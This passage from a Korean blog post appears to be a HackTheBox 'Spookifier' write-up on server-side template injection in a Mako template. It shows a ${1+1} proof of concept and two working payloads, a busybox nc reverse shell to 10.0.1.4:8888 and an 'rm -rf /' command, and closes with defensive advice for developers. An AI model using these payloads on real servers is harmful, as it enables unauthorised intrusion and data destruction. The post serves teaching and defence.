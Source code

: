 위의 내용에 따르면 `pow(x,2)`함수를 실행시켜 나온 결과를 바탕으로 렌더링 된다고 합니다. 여기서 생각해봐야 할 게 있습니다.

> 만일 result가 불특정 다수가 요청한 임의의 문자열로 이루어지면 해당 값을 신뢰할 수 있을까? 

다시 result를 만드는 코드를 살펴보겠습니다.  converted_font에 만일 `${코드}`가 들어가면 어떻게 될까요? 맞습니다. mako template의 expression-substitution 기능으로 인해 `${}`안에 있는 코드가 실행되죠.

``` python
result = '''
        <tr>
            <td>{0}</td>
        </tr>
    '''.format(*converted_fonts)
```

### Poc 작성

그럼 개념 증명을 해봅시다. Spookifier 페이지 기능에 `${1+1}`을 입력하여 결과 값을 살펴봅시다. 아래와 같이 2가 나타납니다. 

<figure markdown>
  ![Image title](/fromitive-blog/assets/2025-04-23/HTB7.png)
</figure>

클라이언트는 이제 임의의 코드를 실행 가능한 것을 확인할 수 있었습니다. 여기서 이제 어떤 공격을 할 수 있을까요? 아래의 코드를 입력하면 어떻게 될까요? 

``` python
${__import__('os').popen('busybox nc 10.0.1.4 8888 -e busybox sh').read()}
```

아님 이런 코드는 어때요?

``` python
${__import__('os').system('rm -rf /')}
```

위의 코드는 리눅스 시스템 명령어를 입력하여 `10.0.1.4의 8888`포트로 접속하여 sh 프로그램을 원격으로 실행시켜주는 `리버스 쉘` 공격 코드 입니다. 이를 활용하여 악의적인 사용자는 아래와 같이 운영 중인 서버에 정당한 인증 없이 직접 침투할 수 있게 됩니다. 

<figure markdown>
  ![Image title](/fromitive-blog/assets/2025-04-23/HTB8.png)
</figure>

## 그럼 어떻게 대응해야 할까?

이 글을 바탕으로, 개발 중 외부라이브러리의 기능을 제대로 파악하고 있지 않으면 발생할 수 있는 위협들을 함께 알아봤습니다. 하지만, 현실적으로 이런 기능들을 제대로 파악하는 건 어렵습니다. 취약점이 위와 같은 SSTI(Servier-Side-Template Injection)만 있는 것도 아니고, 위의 예시처럼 간단한 로직도 아닐겁니다. 개발자들은 어떻게 대응해야 할까요?

### 1. 사용자 입력 값을 신뢰하지 마세요

제안하고 싶은 건 불특정 다수의 입력 값들을 기본적으로 신뢰하지 않는다는 습관을 가져야 합니다. 사용자가 웹 브라우저나 앱을 통해 입력값을 전송한다고 가정하지 말아야합니다. 저희가 서버를 개발한 것과 같이 **그들도 API를 직접 호출할 수 있고 필터링을 우회하는 값들을 언제든지 보낼 수 있다**는 사실을 인지하고 있어야 합니다.

### 2. 만든 기능에 대한 실패 테스트 코드를 작성하세요

두 번째로 기능을 개발하면서 테스트 코드를 작성하십시오. 기능을 개발하고 바로 서비스를 업데이트하면 이러한 취약점을 쉽게 놓치게 됩니다. 개발하고자 하는 기능을 테스트 코드로 작성하다 보면 비 기능적인 부분과 기능적인 부분을 쉽게 인지하게 됩니다. 기능 완성을 우선해도 상관없습니다. 다만 해당 기능에 대한 테스트 코드에 '**어떻게 하면 예상하는 것과 다른 값이 나올까?**'라는 습관을 드리는 것을 추천합니다.
